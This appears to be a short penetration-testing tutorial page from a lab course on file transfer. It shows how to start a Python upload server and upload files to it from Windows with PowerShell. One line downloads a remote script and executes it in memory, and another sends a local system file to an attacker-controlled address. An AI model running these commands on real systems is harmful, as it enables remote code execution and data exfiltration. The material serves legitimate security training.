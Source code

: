 ```yaml
---
description: >-
  Python Upload Server
title: Python Upload Server             # Add title here
date: 2024-01-15 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Python Upload Server]                     # Change Templates to Writeup
tags: [file transfer, python, uploadserver]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Python Web Server to Upload Files

### Installing a Configured WebServer with Upload
For our web server, we can use uploadserver, an extended module of the Python HTTP.server module, which includes a file upload page.

```bash
Shuciran@htb[/htb]$ pip3 install uploadserver
```

```bash
Shuciran@htb[/htb]$ python3 -m uploadserver

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### PowerShell Web Uploads
PowerShell doesn't have a built-in function for upload operations, but we can use Invoke-WebRequest or Invoke-RestMethod to build our upload function. We'll also need a web server that accepts uploads, which is not a default option in most common webserver utilities.

We can use a PowerShell script [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) which uses Invoke-RestMethod to perform the upload operations. The script accepts two parameters -File, which we use to specify the file path, and -Uri, the server URL where we'll upload our file. 

### PowerShell Script to Upload a File to Python Upload Server
```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

[+] File Uploaded:  C:\Windows\System32\drivers\etc\hosts
[+] FileHash:  5E7241D66FD77E9E8EA866B6278B2373
```
